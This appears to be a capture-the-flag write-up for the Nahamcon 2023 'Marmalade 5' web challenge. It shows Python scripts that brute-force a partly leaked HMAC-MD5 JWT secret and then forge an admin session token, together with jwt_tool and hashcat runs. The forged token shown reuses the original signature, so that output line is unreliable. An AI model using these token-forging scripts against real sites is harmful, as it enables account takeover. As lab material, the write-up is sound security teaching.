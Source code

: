 ```yaml
---
name: Marmalade 5 (2023)
event: Nahamcon CTF 2023
category: Web
description: Writeup for Marmalade 5 (Web) - Nahamcon CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Marmalade 5

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/3LRZsnSyDrQ/0.jpg)](https://www.youtube.com/watch?v=3LRZsnSyDrQ "Nahamcon CTF 2023: Marmalade 5 (Web)")

## Description

> Enjoy some of our delicious home made marmalade!

## Recon

Can't register as `admin`.

{% code overflow="wrap" %}
```bash
Login as the admin has been disabled
```
{% endcode %}

Register as `cat` and it says only `admin` can get flag!

Check the [JWT](https://youtu.be/GIq3naOLrTg) in session cookies.

{% code overflow="wrap" %}
```json
eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w
```
{% endcode %}

Decode it with [jwt.io](https://jwt.io)

{% code overflow="wrap" %}
```json
{
  "alg": "MD5_HMAC"
}
{
  "username": "cat"
}
```
{% endcode %}

## First attempts

Tried `null` and `none` algorithm attacks with `jwt_tool`.

{% code overflow="wrap" %}
```bash
jwt_tool eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w -X a -pc username -pv admin
```
{% endcode %}

When trying to use the tokens, get an error.

{% code overflow="wrap" %}
```bash
Invalid algorithm, we only accept tokens signed with our MD5_HMAC algorithm using the secret fsrwjcfszeg*****
```
{% endcode %}

So we know the first 11 characters of the key `fsrwjcfszeg`, let's try to brute force the last 5.

Tried `jwt_tool` but it doesn't work with the `MD5_HMAC` algorithm.

{% code overflow="wrap" %}
```bash
jwt_tool eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w -C -p fsrwjcfszeg*****

Algorithm is not HMAC-SHA - cannot test with this tool.
```
{% endcode %}

Same goes for `hashcat`.

{% code overflow="wrap" %}
```bash
hashcat -a 3 -m 16500 'eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w' fsrwjcfszeg?l?l?l?l?l

Hash 'eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w': Token length exception
No hashes loaded.
```
{% endcode %}

## Solve script #1 (brute-force)

Let's (me and chatGPT) make a custom script to crack the signature.

{% code overflow="wrap" %}
```python
import jwt
import hashlib
import hmac
import base64

jwt_token = "eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w"

def verify_jwt(jwt_token, key):
    # Split the JWT into header, payload, and signature
    header, payload, signature = jwt_token.split('.')

    # Recreate the signing input by concatenating the header and payload with a dot
    signing_input = header + '.' + payload

    # Convert the signing input and key to bytes
    signing_input_bytes = signing_input.encode('utf-8')
    key_bytes = key.encode('utf-8')

    # Create an HMAC-MD5 hash object
    hash_obj = hmac.new(key_bytes, signing_input_bytes, hashlib.md5)

    # Get the HMAC-MD5 signature
    calculated_signature = hash_obj.hexdigest()

    # Decode the Base64-encoded signature from the JWT
    decoded_signature = base64.urlsafe_b64decode(signature + "==")

    # Compare the decoded signature with the calculated signature
    if decoded_signature == bytes.fromhex(calculated_signature):
        print("Key:", key)
        exit(0)

# Define the character set and key length
charset = "abcdefghijklmnopqrstuvwxyz"
key_length = 5

# Loop through different keys
for i in range(len(charset) ** key_length):
    key = ""
    for j in range(key_length):
        key = charset[i % len(charset)] + key
        i //= len(charset)

    verify_jwt(jwt_token, 'fsrwjcfszeg' + key)
```
{% endcode %}

Got the key!

{% code overflow="wrap" %}
```bash
Key: fsrwjcfszegvsyfa
```
{% endcode %}

## Solve script #2 (forge token)

Now another custom script to forge a token with user `admin`.

{% code overflow="wrap" %}
```python
import jwt
import hashlib
import hmac
import base64

jwt_token = "eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w"
key = "fsrwjcfszegvsyfa"

# Split the JWT into header, payload, and signature
header, payload, signature = jwt_token.split('.')

# Decode the payload from the token
decoded_payload = base64.urlsafe_b64decode(payload + "==").decode('utf-8')

# Modify the payload
modified_payload = decoded_payload.replace('"username":"cat"', '"username":"admin"')

# Encode the modified payload
encoded_payload = base64.urlsafe_b64encode(modified_payload.encode('utf-8')).decode('utf-8').rstrip('=')

# Recreate the signing input by concatenating the header and modified payload with a dot
signing_input = header + '.' + encoded_payload

# Convert the signing input and key to bytes
signing_input_bytes = signing_input.encode('utf-8')
key_bytes = key.encode('utf-8')

# Create an HMAC-MD5 hash object
hash_obj = hmac.new(key_bytes, signing_input_bytes, hashlib.md5)

# Get the HMAC-MD5 signature
calculated_signature = hash_obj.digest()

# Encode the calculated signature using base64
encoded_signature = base64.urlsafe_b64encode(calculated_signature).rstrip(b'=').decode('utf-8')

# Replace the characters '+' and '/' in the encoded signature with '-' and '_'
encoded_signature = encoded_signature.replace('+', '-').replace('/', '_')

# Create the modified JWT by concatenating the modified header, encoded payload, and encoded signature
modified_jwt = header + '.' + encoded_payload + '.' + encoded_signature

print("Modified Token:", modified_jwt)
```
{% endcode %}

Receive a new token, signed with `MD5_HMAC` using the secret key `fsrwjcfszegvsyfa`.

{% code overflow="wrap" %}
```bash
eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.C3Z8QcoVXXFa-LAzFZbZ1w
```
{% endcode %}

We replace the cookie and receive a flag!

Flag: `flag{a249dff54655158c25ddd3584e295c3b}`
